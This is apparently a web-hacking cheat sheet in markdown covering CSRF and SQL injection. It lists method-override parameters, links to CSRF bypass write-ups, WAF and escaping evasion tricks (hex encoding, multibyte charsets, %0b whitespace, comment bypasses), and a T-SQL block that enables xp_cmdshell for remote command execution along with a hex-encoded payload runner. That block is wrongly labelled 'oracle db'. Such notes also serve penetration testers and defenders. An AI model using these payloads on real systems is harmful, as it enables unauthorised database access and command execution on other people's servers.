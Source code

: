 
#### #CSRF
* [magic parameters/headers](http://cxf.apache.org/docs/jax-rs.html#JAX-RS-Debugging)
    ```
    ?_method=POST
    ?_ctype=application/json
    X-Http-Method-Override: Post
    Request-method: Post
    ```
* [application/json content-type bypass with flash and 307 redirect](https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b)
* [sum up pdf](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_MikhailEgorov%20_Neat_tricks_to_bypass_CSRF_protection.pdf)


#### #SQL:
* hex encoding
    + union select X'31333337' -> union select 1337
* charsets big5, cp932, gb2312, gbk and sjis
    + [\xbf\x27 escaped to \xbf\x5c\x27, but \xbf\x5c are treated as one char, leaving \x27 unescaped](http://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string/12118602#12118602)
* [Hibernate + H2 db: non-breaking-space is not recognized by Hibernate](https://github.com/p4-team/ctf/tree/master/2016-01-29-nullcon/web_5#eng-version)
* WAF bypass with %0b,%0c,0%a, /\*\*/, like that: sel%0bect
* oracle db
    ```
    # rce
    EXEC master..sp_configure 'show advanced options',1;
    RECONFIGURE WITH OVERRIDE;
    EXEC master..sp_configure 'xp_cmdshell',1;
    RECONFIGURE WITH OVERRIDE;
    EXEC master..sp_configure 'show advanced options',0;
    RECONFIGURE WITH OVERRIDE;
    DECLARE @result TABLE (asd VARCHAR(512));
    declare @cmd nvarchar(1000);
    DECLARE @data VARCHAR(8000);
    set @cmd = \''''+cmd+'''\';
    INSERT INTO @result
         execute xp_cmdshell @cmd;
    SELECT @data = asd FROM @result;
    SELECT 'output: '+@data AS output INTO rce_result;

    # hex encoded payload execute
    DECLARE @S VARCHAR(4000);
    SET @S=CAST(payload_in_hex AS VARCHAR(4000));
    EXEC(@S);
    ```
* bypass comments
    ```selet * from x where /*!user='admin'*/  -> or /*+*/```
* unicode in mysql
    ```mysqli_set_charset($conn,"utf8"); select 'admin' = 'àdmin';   # will return 1```
